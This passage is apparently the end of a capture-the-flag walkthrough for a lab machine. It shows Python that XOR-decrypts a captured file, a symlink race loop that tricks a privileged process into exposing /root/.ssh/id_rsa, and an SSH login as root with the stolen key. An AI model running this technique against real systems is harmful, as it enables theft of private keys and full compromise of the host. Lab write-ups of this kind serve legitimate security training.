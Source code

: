 I can decrypt it in Python:

```

>>> with open('/tmp/0xdf/o', 'rb') as f:
...     enc = f.read()
... 
>>> print(''.join([chr(0x9b^x) for x in enc]))
1961ae74************************

```

#### Shell

I can use the same technique to read `/root/.ssh/id_rsa` by changing the loop:

```

while :; do rm l; ln -sf /root/.ssh/id_rsa l; sleep 3; rm l; echo "oops" > l; sleep 3; done

```

Once I decrypt the output, I can SSH into the box as root:

```

oxdf@hacky$ ssh -i ~/keys/overflow-root root@10.10.11.119
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-143-generic x86_64)
...[snip]...
root@overflow:~# 

```